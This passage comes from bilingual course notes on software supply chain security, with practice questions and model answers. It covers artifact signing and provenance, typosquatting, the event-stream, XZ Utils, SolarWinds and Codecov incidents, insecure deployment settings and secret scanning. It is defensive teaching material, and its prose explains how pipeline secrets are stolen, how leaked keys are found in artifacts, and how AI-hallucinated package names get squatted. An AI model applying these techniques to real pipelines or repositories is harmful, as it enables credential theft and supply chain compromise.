tokens, OIDC short-lived credentials and secret scanning for secrets; and checksums, signatures, provenance attestation and reproducible builds for release artifacts.

## 7. 发布的产物就是审查过的代码吗 (W9 S30–S31)

审查者看的是源代码，用户装的是构建出来的产物，两者之间隔着构建环境、构建产物和发布包（图 9）。每一站都可能出问题：编译器被污染、混进恶意依赖、构建后产物被替换、发布的包没有签名或没人验证。所以要问：用户能不能验证，下载到的二进制或包是从预期的源代码、经预期的构建过程产出的？



图 9 左下角的三个问题，对应三种保证：

- 产物有没有签名？用户核对公布的 SHA-256 能发现下载途中的损坏或替换，但哈希值本身要从可信的渠道拿到；发布方签名更可靠，见第 1 章 §3.1。签名只证明产物出自持有私钥的构建流程，SolarWinds 的更新同样带着签名（§3）。
- 有没有**来源证明**（provenance）？这是构建平台出具并签名的记录，写明产物由哪个源代码提交、用哪个构建流程、在哪个构建平台上产出。部署前核对它，就能拒绝不是从预期仓库和流水线出来的产物。
- 构建能不能复现？**可复现构建**（reproducible build）指同样的源代码和构建过程，不管谁来构建，都得到逐位相同的产物。几方各自独立构建、再比较哈希，被污染的编译器或被篡改的构建步骤就藏不住。

> ✍️ **English answer** — Reviewers inspect source code, but users install build artifacts, so the released artifact may not be the software that reviewers inspected: the compiler or a dependency can be polluted, the artifact can be replaced after the build, or the release can be unsigned or unverified. Artifact integrity asks whether users can verify that the downloaded binary or package was built from the expected source code using the expected build process. A signature proves that the artifact comes from the holder of the signing key, provenance attestation records which source commit, build process and builder produced it, and a reproducible build lets independent parties rebuild the same source and compare hashes, which exposes a tampered build even when the release is signed.

## 8. 依赖与构建系统的攻击途径 (W9 S71–S80)

### 8.1 抢注相似的包名

**Typosquatting** 是用和热门包相近的名字发布恶意包，等用户打错名字时装上它。代码里写的是 `from sklearn import svm`，正确的安装命令却是 `pip install scikit-learn`；用户顺手敲成 `pip install sklearn`，装的就可能是攻击者的包。步骤是：起一个相似的名字，发布到 PyPI 这样的公共仓库，等用户打错。

AI 写代码让问题更严重：模型会幻觉（hallucinate）出不存在的包名。正确的命令是 `pip install huggingface_hub`，AI 却推荐 `pip install huggingface_cli`。研究者注册了一个空的 `huggingface-cli` 包，三个月里被下载了 3 万多次。注册它的如果是攻击者，这些下载装上的就是恶意代码。

课件还列了一个相关途径：use after free。

> 👨‍🏫 **课堂强调** — 修了漏洞为什么要发新版本，不直接改旧版本？依赖它的程序还在用旧版本，旧版本被改掉或删掉，这些程序就会出问题。所以包仓库一般不允许修改或删除已经发布的版本。

> 📎 **拓展（超出 slides）** — 攻击树里的 use after free 借用了内存漏洞的名字：包或维护者账户被删除，名字空了出来，攻击者重新注册同名的包，还在引用这个名字的项目就会装上攻击者的版本。

### 8.2 攻击者成了维护者

event-stream 是 npm 上的热门包。攻击者拿到了它的维护者权限，发布了一个新版本，加入恶意依赖 flatmap-stream；受害者在日常安装或更新依赖时自动下载了它。恶意代码专门针对 Copay 加密货币钱包的用户，试图偷走这些用户的比特币私钥。缓解办法是发布要由多位维护者评审和批准，并监控依赖的更新。

> 👨‍🏫 **课堂强调** — 引入一个库要做代码评审，每次升级到新版本还要再审一次。

XZ Utils（2024 年）走得更远，攻击目标是构建和发布流程，不只是看得见的源代码：

- 2021–2022 年，攻击者逐渐成为 XZ Utils 受信任的贡献者。
- 2024 年 2–3 月，把恶意的构建逻辑藏进发布用的 tarball 和构建过程。
- 2024 年 3 月 29 日，带后门的 5.6.0 和 5.6.1 正式发布。
- Linux 发行版打包了受影响的版本，下游系统随之暴露。
- 后门被发现，受影响的版本被撤回。

它不是一个普通的"有漏洞的依赖"。攻击者操纵的是信任、发布产物、打包和下游分发：仓库里的源代码看不出问题，恶意逻辑在构建时才注入。一位工程师发现 SSH 登录比平时慢，追查下去才找到这个后门。

> 📎 **拓展（超出 slides）** — 后门经 liblzma 影响 OpenSSH 服务器，持有攻击者私钥的人能远程执行代码。核对发布的 tarball 和仓库里的源代码是否一致，或者从源代码独立构建再比较，都能暴露这类差异，这正是 §7 的来源证明和可复现构建要做的事。

### 8.3 攻破构建系统

步骤：攻破软件的构建系统或 CI/CD 流水线，在构建过程中注入恶意代码，受害者再从官方渠道下载、安装被污染的软件。SolarWinds 是一例（图 3）。Codecov（2021 年）是另一例：被篡改的 Bash Uploader 脚本在成千上万条客户的 CI/CD 流水线里运行，泄露了这些流水线里的凭据。缓解办法是限制谁能访问构建系统，隔离并加固构建环境，用代码签名和完整性校验保护发布的软件；runner 用短期的，权限给到最小。

> ✍️ **English answer** — Typosquatting publishes a malicious package with a name similar to a popular one, such as sklearn instead of scikit-learn, and waits for users to mistype it; AI code generation makes this worse because models may hallucinate non-existent packages such as huggingface-cli, which received over 30,000 downloads in three months when a researcher registered it. An attacker who gains maintainer privileges can publish a release with a malicious dependency, as in event-stream, where flatmap-stream targeted Copay wallet users' Bitcoin private keys, so releases should need review and approval by several maintainers. In XZ Utils (2024) the attacker became a trusted contributor and hid malicious build logic in the release tarballs, and in SolarWinds and Codecov the build system was compromised; mitigations are restricted access to the build system, isolated and hardened build environments, and code signing with integrity verification of releases.

## 9. 发现和修补依赖里的漏洞 (W10 S2, S34, S50–S53)

开源软件的源代码公开，攻击者能得到比闭源软件多得多的信息。开源软件面临四类问题：已知漏洞（有公开的 CVE 编号，用户不升级就会被直接利用）、未知漏洞、供应链问题（恶意包，或依赖的漏洞没有及时修补），以及执行漏洞（不安全的输入处理）。

Linux 有 3000 多万行代码，靠人工审查不现实，要靠自动化工具。静态分析和动态分析互补：

| | 静态分析 static analysis | 动态分析 dynamic analysis |
|---|---|---|
| 是否运行程序 | 不运行，分析源代码或二进制 | 运行程序 |
| 回答的问题 | 可能发生什么 | 实际发生了什么 |
| 需要输入 | 通常不需要 | 需要测试输入 |
| 覆盖 | 能推理很多可能的路径 | 只覆盖输入触发到的路径 |
| 证据 | 潜在的漏洞 | 运行时的具体行为 |
| 主要局限 | 误报 false positive | 漏报 false negative |
| 适合 | 早期发现、大范围扫描 | 确认 bug、观察真实行为 |
| 工具 | CodeQL、Semgrep | ASan、模糊测试（fuzzing） |

两种方法的具体技术见附录。

发现漏洞以后，负责任的流程是：发现 → 私下报告 → 维护者验证影响 → 准备补丁 → 发布安全公告（advisory）。很多项目和公司提供漏洞赏金（bug bounty）。公开的公告故意写得很简略，只提示升级到哪个版本，不说是哪个函数出了问题。补丁沿着这条路到达用户：维护者写补丁，发布新版本，包仓库更新，下游用户升级。

问题出在最后一步（图 10）。修复版本发布了，直接依赖它的项目升级了，可传递依赖里可能还锁着旧版本，fork 或复制出去的代码也不会自动打上补丁。没补上的部分就是**补丁缺口**（patch gap），攻击者正是利用它：很多漏洞公开多年，带漏洞的软件仍在运行。



> ✍️ **English answer** — OSS faces known vulnerabilities (public CVEs that are exploited when users do not upgrade), unknown vulnerabilities, supply-chain problems (malicious packages and unpatched dependencies) and execution vulnerabilities caused by unsafe input handling, and its large codebases require automated analysis. Static analysis examines source code or binaries without running them and can reason about many possible paths, but it produces false positives; dynamic analysis runs the program with test inputs and gives concrete runtime evidence, but it misses paths that the inputs do not trigger, so it produces false negatives. After responsible disclosure the maintainer releases a patched version and the registry is updated, but a patch gap remains when transitive dependencies still pin the vulnerable version or forked copies are never patched, and attackers exploit that gap.

## 10. 部署配置与秘密：补充 (W9 S34–S51, S58–S59)

### 10.1 安全的代码，不安全的部署

漏洞不一定在源代码里，也可能在开源软件的配置和部署方式里。同一个开源数据库，放在内网并开启认证，只有后端能访问；放在公网并用默认口令，谁都可以尝试连接（图 11）。配置决定攻击面：谁能连到服务，服务有什么权限，安全检查有没有打开。



| 风险配置 | 攻击过程 | 安全的做法 |
|---|---|---|
| 默认凭据 admin/admin，管理面板对外开放 | 找到暴露的管理面板，试常见的默认口令，登录后改设置或数据 | 上线前改掉默认凭据，管理界面不对外 |
| 生产环境开着调试模式（Flask 的 `debug=True`） | 发送畸形输入触发错误页，从堆栈、内部路径和敏感变量里获取信息，再设计更精准的攻击 | 设 `debug=False`，只通过受控的生产服务器对外 |
| 多余的服务（Redis 的 6379 端口对公网开放） | 扫描发现 Redis，直接连上去读改缓存数据 | 只启用需要的服务，只暴露给需要它的组件 |
| 以 root 运行（Dockerfile 默认用户是 root） | 利用应用漏洞后，进程本来就是 root，能改受保护的文件、装工具、控制其他进程 | 创建非 root 用户，按最小权限运行 |
| 特权容器、挂载 Docker 套接字或宿主机目录 | 从容器里控制宿主机，或读取宿主机上的文件和 SSH 密钥 | 见第 12 章 §8 |
| 关闭 TLS 验证（`verify=False`） | 网络上的攻击者拦截流量，应用接受伪造的证书，令牌或返回的数据被偷或被改 | 保持验证开启，正确配置受信任的证书（第 4 章 §5） |

上线前的检查清单分两组：减少暴露（改默认凭据、关调试模式、只开必要的端口、管理接口不公开），减少权限（非 root 运行、不用特权容器、限制卷挂载、开启 TLS 和认证）。**配置是安全边界的一部分**，安全的开源项目也会因为不安全的部署变得脆弱。

### 10.2 硬编码的秘密

开源软件访问数据库、第三方 API 和云存储，靠的是口令、API token 和密钥：

```text
DB_PASSWORD=example_password
STRIPE_API_KEY=sk_live_xxxxx
AWS_ACCESS_KEY_ID=AKIA...
AWS_SECRET_ACCESS_KEY=xxxxxxxx
```

秘密泄露，攻击者就能访问同样的资源。开发者图方便，常把秘密直接写进源代码，这叫硬编码的秘密（hard-coded secret），推到 GitHub 上就公开了。只删掉它没有用（图 12）：提交 A 加入了 `API_KEY="abcd1234"`，提交 B 把它删掉，可 Git 历史还留着提交 A，秘密照样能找回来。泄露以后要吊销并轮换这个秘密，只改代码不够。



问题的规模（GitGuardian 2026 年报告）：2025 年 GitHub 上新泄露了 2900 万个秘密；AI 辅助的提交让秘密泄露加剧到约 2 倍；4.61% 的公开仓库至少泄露过一个秘密；扫描过的 11 亿次提交里，约 800 万次至少暴露了一个秘密。研究认为原因是开发者把方便放在安全前面，很多人缺少有效的秘密管理做法。

秘密也不只漏在源代码仓库里（图 13）：手机应用（.apk、.ipa 里的 strings.xml、Info.plist）、浏览器扩展（manifest.json、JS 包）、桌面应用（app.asar、config.json）、容器镜像（.env、镜像层）、前端打包文件（main.js、source map）、日志和崩溃报告都可能带着它。解开一个产物，搜 api_key、token、secret、AKIA、PRIVATE KEY 这类字符串，就可能找到。



应对办法：

- 秘密不写进源代码，放进专门的秘密库（vault），运行时再读取（第 9 章 §3.2）。
- 把秘密检测集成进 CI/CD。公开的秘密往往几分钟内就会被自动扫描器发现并利用。
- 定期轮换秘密，降低意外泄露的影响。

| 工具 | 什么时候 | 做什么 |
|---|---|---|
| Gitleaks | 提交前或 CI 中 | 用规则和正则表达式扫描源代码和 Git 历史 |
| TruffleHog | 提交前或 CI 中 | 用正则和高熵分析检测，还能验证泄露的凭据是否仍然有效 |
| GitHub Secret Scanning | 推送之后 | 持续扫描仓库，发现支持的秘密类型就提醒仓库所有者 |

扫描技术按判断依据分四种：

| 技术 | 依据 | 例子 |
|---|---|---|
| 基于模式 pattern-based | 已知的格式或前缀 | 匹配 GitHub 令牌格式的 `ghp_xxxx…` |
| 基于熵 entropy-based | 看起来随机、熵很高的字符串 | `8fK2xP9mQ4vL7sR1…` |
| 基于上下文 context-aware | 周围的代码或语义 | 赋给变量 `api_key` 的值 |
| 基于验证 validation-based | 候选凭据是否真的能用 | 拿疑似的 GitHub 令牌调 API，返回 200 OK |

秘密是用来访问服务的，所以还可以顺着 HTTP 请求去找：放进 `Authorization` 头的值很可能就是秘密，哪怕它由前缀和后缀拼成、不符合任何已知格式。这要用到数据流分析，见附录。

口令也是一种秘密。泄露的口令会被拿去撞库，passkey 用公钥签名代替口令，见第 3 章 §13.3–§13.4。同步到多台设备的 passkey，每台可信设备都有一份本地的私钥副本，都能独立完成签名，丢了一台设备也不会被锁在账户外。

> ✍️ **English answer** — Secure OSS can still become insecure after deployment: default credentials, debug mode in production, unnecessary exposed services, running as root, privileged containers, broad volume mounts and disabled TLS verification all enlarge the attack surface, so deployment should reduce exposure and privilege. Hard-coded secrets in source code are quickly found by automated scanners, and deleting them in a later commit does not help because Git history still contains them, so a leaked secret must be revoked and rotated. Secrets should live in a dedicated vault and be injected at runtime, secret detection such as Gitleaks, TruffleHog or GitHub Secret Scanning should run in CI/CD, and scanners recognise secrets by pattern, entropy or context, or by validating whether the credential still works.

## 11. 答题：评估一条流水线的供应链风险 (W9 S81)

课件的总结有四句：现代软件严重依赖第三方开源组件；供应链的每一段都可能成为攻击面；信任要持续验证，不能默认；保护供应链既要技术控制，也要组织控制。

问答题给出一条流水线或一起事件时，可以按五步写：

1. 列出第三方组件和信任关系：直接依赖和传递依赖、第三方 action 和插件、构建镜像、runner、包仓库、维护者。
2. 找出秘密在哪里，哪些代码能在拿得到秘密的地方运行（§5）。
3. 沿着流水线逐段找攻击：源代码（恶意 PR、被盗的维护者账户）、依赖（相似的包名、被篡改的新版本、没修补的漏洞）、runner（常驻的恶意进程）、产物（被替换）、部署（权限过大的令牌）。
4. 每一段给出控制（§6.5 的表），并说明它挡住了哪一步。
5. 写出剩下的风险和组织层面的控制：多人审批发布、依赖升级的评审和补丁流程、监控与应急。

用一个场景走一遍。一个开源 npm 包的流水线用 `pull_request_target` 触发，检出 PR 的代码后运行 `npm install` 和构建脚本；发布时用 `some-org/publish-action@v1`；npm 发布令牌和一把有管理员权限的长期 AWS 密钥存成仓库秘密，所有作业都能用；自托管 runner 在作业之间复用；发布页上只公布 SHA-256。

> ✍️ **English answer（model answer）** — The pipeline trusts many third-party components: every direct and transitive npm dependency, a publish action referenced only by the mutable tag v1, a reused self-hosted runner and the npm registry, and its main weakness is that untrusted code can run where secrets are available. Because the workflow is triggered by pull_request_target, checks out the pull request's code and runs its build script, any outsider can open a pull request whose script reads the environment and sends the npm token and the AWS key to their server. A compromised release of the publish action or a malicious dependency would run with the same tokens, and a persistent process on the reused runner could steal credentials from later jobs and modify the package before it is published. Since the release page offers only a SHA-256 value, an attacker who can replace the package and the page can make users accept a tampered artifact. I would run builds for pull requests only with the pull_request event, which receives no secrets, and run the release job only from the protected main branch after mandatory review; pin third-party actions to full commit SHAs and dependencies with a lockfile, and review every update; use short-lived, isolated runners with no shared workspace; replace the long-lived AWS administrator key and the broad npm token with least-privilege OIDC short-lived credentials released only to a protected publishing environment after approval, and enable secret scanning; and sign each release and publish provenance, ideally from a reproducible build, so that users can verify it. Residual risk remains in maintainer accounts and in vulnerable transitive dependencies, so releases should require approval by several maintainers, and dependency monitoring and a patch process are still needed.

## ⚠️ 易混易错

| 容易混的 | 区别 |
|---|---|
| CI vs CD | CI 对每次改动自动构建、测试；CD 把通过 CI 的产物自动准备发布或部署 |
| 预发布 vs 生产 | 预发布是生产的彩排，用接近生产的配置；CI 通过不代表生产能跑 |
| 滚动 vs 蓝绿 vs 金丝雀 | 逐台替换 / 两套环境整体切换流量 / 先给一小部分流量再扩大 |
| `uses:` vs `run:` | 复用第三方 action / 直接执行命令，两者都能用流水线的权限 |
| 直接依赖 vs 传递依赖 | 自己选的包 / 依赖的依赖，自己没选过 |
| 直接复用 vs 定制复用 | 原样使用 / fork 或复制后修改，可能引入新漏洞，补丁不会自动同步 |
| typosquatting vs 维护者被冒用 vs 构建系统被攻破 | 新建名字相近的恶意包 / 感染已有包的源代码或发布 / 在构建时注入 |
| 校验和 vs 签名 vs 来源证明 vs 可复现构建 | 发现改动，但哈希要从可信渠道拿 / 证明出自持私钥的一方 / 证明由哪个提交和流水线构建 / 独立重建后比对 |
| 静态 vs 动态分析 | 不运行、覆盖广、有误报 / 运行、证据具体、有漏报 |

常见误解：

- "源代码审查过了，发布的二进制就安全"：构建环境和产物也可能被篡改，SolarWinds 和 XZ Utils 都是这样。
- "有签名就可信"：签名只证明出自持有私钥的构建流程，构建流程被攻破时，恶意更新一样带签名。
- "秘密不在仓库里，就不会泄露"：秘密在运行时注入 runner，能在 CI 里运行代码的人就能拿到。
- "删掉提交里的密钥就安全了"：Git 历史仍然保留它，要吊销并轮换。
- "升级了直接依赖就修好了"：传递依赖和 fork 出去的副本可能还有漏洞。
- "开源代码人人都看得到，所以没有漏洞"：87% 的被审计代码库含已知的开源漏洞，公开的代码也给了攻击者更多信息。
- "AI 推荐的包名不会错"：幻觉出来的包名可能被攻击者抢注。

## 📝 Practice

### Part A · Multiple choice

**A1.** Which statement best describes continuous integration (CI)?
A. Code is deployed to production once a month after manual testing
B. Each change merged into the shared repository is automatically built and tested
C. A small fraction of users receives the new version first
D. Each release is signed with the developer's private key

<details>
<summary>Answer A1</summary>

**B.** Option C describes a canary release, and option D describes artifact signing.

</details>

**A2.** A team sends 5% of production traffic to v2, monitors error rate and latency, and then expands to 20%, 50% and 100%. This strategy is:
A. rolling deployment
B. blue-green deployment
C. canary release
D. staging

<details>
<summary>Answer A2</summary>

**C.** A canary release limits the blast radius and allows rollback before the full release.

</details>

**A3.** A GitHub workflow is triggered by pull_request_target, checks out the pull request's head commit and runs ./build.sh. What is the main risk?
A. The build is slower than with pull_request
B. Attacker-controlled code from the pull request runs with access to repository secrets
C. The runner cannot download dependencies
D. The tests cannot be executed

<details>
<summary>Answer A3</summary>

**B.** Anyone can open a pull request, so the workflow executes an outsider's build script in a job that can read the injected tokens.

</details>

**A4.** Which control most directly limits the damage of a compromised CI runner?
A. Signed commits
B. Short-lived runners with no shared workspace
C. A canary release
D. Disabling debug mode

<details>
<summary>Answer A4</summary>

**B.** A runner that is destroyed after each job leaves no place for a persistent malicious process. Signed commits protect the repository, not the execution environment.

</details>

**A5.** A developer runs pip install sklearn instead of pip install scikit-learn and installs a malicious package. This attack is called:
A. credential stuffing
B. typosquatting
C. a build system compromise
D. a patch gap

<details>
<summary>Answer A5</summary>

**B.** The attacker publishes a package with a name similar to a popular one and waits for users to mistype it.

</details>

**A6.** A developer commits an API key and removes it in the next commit. Which statement is TRUE?
A. The key is safe because it no longer appears in the latest version
B. The key is still recoverable from Git history, so it must be revoked and rotated
C. GitHub automatically deletes the earlier commit
D. Only the developer can read earlier commits

<details>
<summary>Answer A6</summary>

**B.** Deleting a secret does not remove it from the repository's history.

</details>

**A7.** In the SolarWinds attack, what did the attackers compromise?
A. A typosquatted package on PyPI
B. The build environment, so a digitally signed official update contained a backdoor
C. Users' reused passwords
D. A transitive dependency with an unpatched CVE

<details>
<summary>Answer A7</summary>

**B.** The malicious code was inserted during the build, so the official update channel and the signature both delivered it to customers.

</details>

**A8.** Which of the following is a transitive dependency of an application?
A. A library that the developer imports directly
B. A library that one of the application's dependencies depends on
C. The application's own source code
D. The CI platform's secret store

<details>
<summary>Answer A8</summary>

**B.** A transitive dependency is a dependency of a dependency, which the developer never chose directly.

</details>

### Part B · Fill in the blank / short answer

**B1.** CI stands for continuous ______. The environment that executes CI jobs is called a ______. A pre-production environment that tests the validated artifact with realistic configuration is called ______. In ______ deployment, a load balancer switches traffic from the environment running v1 to a prepared environment running v2.

<details>
<summary>Answer B1</summary>

Integration; runner; staging; blue-green.

</details>

**B2.** A dependency of a dependency is a ______ dependency. Secret scanners recognise secrets by ______-based matching of known formats, ______-based detection of random-looking strings, context-aware analysis, and ______-based testing of whether a credential works. The risk that remains when transitive dependencies or forked copies stay unpatched is called the ______.

<details>
<summary>Answer B2</summary>

Transitive; pattern; entropy; validation; patch gap.

</details>

**B3.** Why is a CI/CD pipeline a security-critical trust boundary?

<details>
<summary>Answer B3</summary>

It has high complexity, with many tools, dependencies, scripts, runners and services that create attack surface; many interactions, because it connects developers, OSS components, repositories, registries and environments; and high privilege, because it can read code, publish packages, run arbitrary commands, deploy services and upload artifacts. The platform injects tokens and secrets into the runner when a job executes, so any code that runs in the job can use them, and controlling what code runs in CI is controlling who can access the tokens. One compromise can therefore affect production and every downstream user.

</details>

**B4.** A vendor publishes the SHA-256 hash of each release on its download page. Explain the limitation of this measure and what else helps users verify the artifact.

<details>
<summary>Answer B4</summary>

A hash detects corruption or replacement only if the expected value comes from a trusted channel; an attacker who controls the download server can replace both the file and the published hash. A signature made with the vendor's private key cannot be forged without that key. Provenance attestation shows which source commit and build pipeline produced the artifact, and a reproducible build lets independent parties rebuild the source and compare hashes. A signature alone does not help when the build process itself is compromised, as in SolarWinds.

</details>

**B5.** Compare static and dynamic analysis, giving the main limitation of each.

<details>
<summary>Answer B5</summary>

Static analysis examines source code or binaries without running them, needs no concrete input and can reason about many possible paths, so it suits early detection and broad scanning, but it reports potential issues and produces false positives. Dynamic analysis runs the program with test inputs and observes concrete runtime behaviour, so it confirms real bugs, but it covers only the paths that the inputs trigger and therefore produces false negatives. Examples are CodeQL and Semgrep for static analysis, and ASan and fuzzing for dynamic analysis.

</details>

### Part C · Questions and answers

**C1.** Your company's web application depends on a popular npm package. The package maintainer's account is taken over, and the attacker publishes a new minor version that, when installed during a CI build, reads environment variables and sends them to the attacker. Your pipeline installs the latest compatible versions on a self-hosted runner that is reused across jobs, and every job can read a long-lived cloud deployment key.
(a) Explain why this is a software supply chain attack and how it reaches your company although your own code did not change.
(b) What can the attacker obtain, and what could they do next?
(c) Recommend controls that would prevent or limit this attack, and explain what each one stops.

<details>
<summary>Model answer C1</summary>

(a) A software supply chain attack compromises an upstream component in order to indirectly compromise downstream software or its users. Here the attacker infected an existing package by committing as its maintainer with stolen credentials and published the release through the trusted registry. Every project that accepts new compatible versions downloads it automatically during routine dependency installation, so the package's existing trust is reused, and our CI job, which is itself part of our supply chain, executes the malicious code without any change to our own code.

(b) The malicious code runs with the job's environment, so it can read the long-lived cloud deployment key, CI tokens such as GITHUB_TOKEN and any other injected secrets. With the deployment key the attacker can deploy or modify services, read data and create persistent access in our cloud account. Because the self-hosted runner is reused, the code can also leave a background process that steals the secrets of later jobs and modifies their build output, so future releases could be tampered with as well.

(c) Pin dependency versions with a lockfile and review each update before accepting it, instead of installing the latest version automatically, and monitor dependency updates and advisories; this stops a newly published malicious version from entering the build unnoticed. Use short-lived, sandboxed runners with no shared workspace, so a compromise cannot persist into later jobs. Give ordinary CI jobs only test credentials and release production deployment credentials only to a protected deployment job after approval, so a build-time compromise cannot reach production. Replace the long-lived key with least-privilege OIDC short-lived credentials, so a stolen credential is useful only briefly, and enable secret scanning. After detection, revoke and rotate every exposed secret, rebuild from known-good dependency versions and review deployments made in the meantime. Organisationally, prefer packages whose releases require approval by several maintainers.

**Marking points:** definition of a supply chain attack and how the malicious release propagates through the registry (2); what the attacker obtains and the persistence on the reused runner (1); dependency pinning and review of updates (1); short-lived runners, environment separation and short-lived least-privilege credentials (1); revocation and rotation after the incident (1).

</details>

**C2.** A software vendor signs every release with a private key kept in a hardware security module. Attackers compromise the vendor's build server and insert a backdoor during the build. The resulting update is signed as usual and installed by thousands of customers through the official update channel.
(a) Why did code signing not protect the customers?
(b) Which controls could the vendor use to prevent or detect such an attack?
(c) What does this incident show about trust in the software supply chain?

<details>
<summary>Model answer C2</summary>

(a) A signature proves that the update was produced by the holder of the signing key and was not modified after signing. The attackers did not need the key: they changed the software before signing, inside the trusted build process, so the vendor's own pipeline signed the backdoored artifact. The customers verified a valid signature, but the signature only vouched for a compromised process, as in the SolarWinds attack.

(b) The vendor should restrict access to the build system and protect it like production: isolated and hardened build environments, short-lived sandboxed build workers with no shared workspace, least-privilege access and review of every change to build scripts. The build should produce signed provenance attestation recording the source commit and build process, which is checked before release. Builds should be reproducible, so that an independent build from the reviewed source can be compared with the release artifact; any difference reveals code injected during the build. Monitoring of the build system and a comparison of release contents with the repository help detect tampering.

(c) Every stage of the supply chain can become an attack surface, and trust should be continuously verified rather than assumed: a trusted channel and a valid signature do not prove that the content is benign. One compromise of an upstream build reaches every downstream customer, so securing the supply chain requires both technical controls, such as isolation, signing, provenance and reproducible builds, and organisational controls, such as access management, review and incident response.

**Marking points:** a signature proves origin from the key holder's process, not that the build was uncompromised (2); build isolation and access control (1); provenance and reproducible builds explained (2); trust must be continuously verified, technical and organisational controls (1).

</details>

## 本章小结

- 现代软件严重依赖开源组件：98% 的被审计商业代码库含开源，87% 含已知漏洞；复用的同时也继承了 bug、漏洞和维护负担，传递依赖占了大半（Log4Shell）。—— *OSS, transitive dependency, inherited risk*
- 软件供应链是开发生命周期里的全部人员、组件、工具、基础设施和流程，CI/CD 和包仓库都在其中；供应链攻击攻破上游一处，下游都受影响（SolarWinds）。—— *software supply chain attack*
- CI 对每次改动自动构建和测试，CD 自动发布和部署；预发布是生产的彩排；发布策略有滚动、蓝绿和金丝雀。—— *CI/CD, staging, canary release*
- CI/CD 是信任边界：复杂、交互多、权限高；秘密在运行时注入 runner，控制哪些代码能在 CI 里运行，就是控制谁拿到令牌；各环境用不同的凭据。—— *trust boundary, runtime secret injection*
- 四种流水线攻击：执行不可信的 PR 代码、runner 被攻破、第三方 CI 组件被篡改、产物被替换；缓解是在每一段减少信任。—— *pull_request_target, short-lived runners, OIDC*
- 产物完整性靠签名、来源证明和可复现构建；构建流程本身被攻破时，签名保护不了用户。—— *provenance, reproducible build*
- 依赖攻击有 typosquatting（含 AI 幻觉出的包名）、维护者被冒用（event-stream、XZ Utils）、构建系统被攻破（SolarWinds、Codecov）；修复发布后仍有补丁缺口。—— *typosquatting, patch gap*
- 配置和秘密也是边界：默认凭据、调试模式、root、特权容器；硬编码的秘密删了也还在 Git 历史里，要吊销和轮换，并在 CI 里扫描。—— *hard-coded secret, secret scanning*
